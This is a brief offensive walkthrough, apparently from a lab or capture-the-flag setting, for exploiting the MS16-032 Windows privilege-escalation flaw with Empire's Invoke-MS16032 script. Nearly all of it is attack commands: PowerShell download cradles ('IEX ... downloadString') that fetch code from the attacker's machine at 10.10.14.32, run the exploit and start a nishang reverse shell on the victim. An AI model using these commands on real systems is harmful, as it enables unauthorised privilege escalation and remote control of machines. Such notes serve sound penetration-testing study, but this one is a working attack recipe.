 # MS16-032 Drivers EOP
source: https://github.com/EmpireProject/Empire/raw/master/data/module_source/privesc/Invoke-MS16032.ps1

1)  Edit ps script at the end of the content to include the following command for executing exploit to trigger nishang reverse powershell (https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) which is renamed as `shell.ps1`
```powershell```
Invoke-MS16032 -Command "IEX (New-Object Net.WebClient).downloadString('http://10.10.14.32/shell.ps1')"
```

2) Host this file in webserver in your kali machine, you should also host a tcp reverse named `shell.ps1`

3) In victim machine, run command :
```cmd
IEX (New-Object Net.WebClient).downloadString('http://10.10.14.32/Invoke-MS16032.ps1')
```
